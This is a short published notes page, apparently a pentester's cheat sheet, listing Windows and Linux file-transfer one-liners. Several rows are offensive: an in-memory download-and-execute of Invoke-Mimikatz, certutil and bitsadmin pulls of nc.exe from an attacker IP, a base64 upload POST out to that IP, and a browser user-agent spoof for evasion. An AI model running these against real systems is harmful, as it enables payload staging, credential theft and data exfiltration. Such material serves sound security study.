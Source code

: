 ```yaml
---
{"dg-publish":true,"permalink":"/windows/comandos/"}
---
```



# Windows

|**Command**|**Description**|
|---|---|
|`Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1`|Download a file with PowerShell|
|`IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`|Execute a file in memory using PowerShell|
|`Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64`|Upload a file with PowerShell|
|`bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe`|Download a file using Bitsadmin|
|`certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe`|Download a file using Certutil|
|`wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`|Download a file using Wget|
|`curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`|Download a file using cURL|
|`php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`|Download a file using PHP|
|`scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip`|Upload a file using SCP|
|`scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe`|Download a file using SCP|
|`Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"`|Invoke-WebRequest using a Chrome User Agent|